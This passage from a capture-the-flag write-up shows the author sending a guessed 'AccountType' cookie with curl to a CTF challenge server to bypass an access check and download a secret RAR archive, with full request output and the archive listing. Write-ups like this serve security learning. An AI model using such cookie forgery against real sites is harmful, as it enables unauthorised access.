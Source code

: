 Answer is received in a few seconds: `1haV`.

Now we can try to download the secret file:
```console
root@kali:/media/sf_CTFs/433/login# curl -v -X GET http://cyberlahavctf2019.com/secret_file --cookie "AccountType=1haV" -O
Note: Unnecessary use of -X or --request, GET is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0*   Trying 207.154.239.211...
* TCP_NODELAY set
* Connected to cyberlahavctf2019.com (207.154.239.211) port 80 (#0)
> GET /secret_file HTTP/1.1
> Host: cyberlahavctf2019.com
> User-Agent: curl/7.61.0
> Accept: */*
> Cookie: AccountType=1haV
>
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-disposition: attachment; filename=success.rar
< Content-type: application/x-rar-compressed
< Date: Tue, 29 Jan 2019 20:52:48 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
{ [3850 bytes data]
100  501k    0  501k    0     0  87666      0 --:--:--  0:00:05 --:--:--  109k

root@kali:/media/sf_CTFs/433/login# file secret_file
secret_file: RAR archive data, v4, os: Win32

root@kali:/media/sf_CTFs/433/login# rar v success.rar

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help

Archive: success.rar
Details: RAR 4

 Attributes      Size    Packed Ratio    Date    Time   Checksum  Name
----------- ---------  -------- ----- ---------- -----  --------  ----
    ..A....      1375      1221  88%  2019-01-24 17:18  E18C5927  sucess/A1w4ysG0_l3ft2RIGHT.png
    ..A....   1146720    512134  44%  2019-01-24 17:51  7D4A1833  sucess/Huffman Queue.wav
    ...D...         0         0   0%  2019-01-24 19:07  00000000  sucess
----------- ---------  -------- ----- ---------- -----  --------  ----
              1148095    513355  44%                              3
```

We get two files. First, an image:

![](images/A1w4ysG0_l3ft2RIGHT.png)
